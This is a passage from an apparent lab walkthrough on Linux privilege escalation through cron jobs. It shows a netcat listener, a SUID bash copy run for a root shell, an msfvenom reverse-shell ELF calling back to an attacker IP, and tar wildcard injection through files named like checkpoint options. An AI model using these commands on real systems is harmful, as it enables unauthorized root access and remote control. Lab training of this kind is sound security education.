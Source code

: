 ```nc -nvlp 4444```

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
````

* Make sure that the file is executable:

```chmod +x /home/user/overwrite.sh```

* Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```/tmp/rootbash -p```

* Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```bash
rm /tmp/rootbash
exit
```

---

* Answer the questions below
* What is the value of the PATH variable in /etc/crontab?

```

```


## Task 10: Cron Jobs - Wildcards

* View the contents of the other cron job script:

```cat /usr/local/bin/compress.sh```

> Note that the tar command is being run with a wildcard (\*) in your home directory.

* Take a look at the __GTFOBins__ page for tar.
> Note that __tar__ has command line options that let you run other commands as part of a checkpoint feature.

* Use __msfvenom__ on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

* Transfer the shell.elf file to __/home/user/__ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```chmod +x /home/user/shell.elf```

* Create these two files in __/home/user__:

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
